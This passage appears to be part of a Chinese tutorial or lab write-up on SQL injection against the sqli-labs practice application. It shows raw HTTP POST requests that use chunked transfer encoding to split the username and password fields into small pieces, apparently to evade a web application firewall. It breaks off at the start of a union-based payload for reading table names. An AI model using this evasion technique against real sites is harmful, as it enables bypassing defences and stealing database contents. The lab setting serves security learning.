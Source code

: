 ```php
&
3
sub
3
mit
1
=
3
Sub
3
mit
0

```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-b0040031d9ff8193c52ccf29610de6d119661a77.png)

#### 读取表名：

```php
POST /sqli-labs-master/Less-11/ HTTP/1.1
Host: 192.168.172.161
Content-Length: 619
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.172.161
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.172.161/sqli-labs-master/Less-11/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Transfer-Encoding: chunked

1
u
2
na
1
m
1
e
1
=
1
&
2
pa
2
ss
2
wd
1
=
3
%27
1
u
2
ni
```
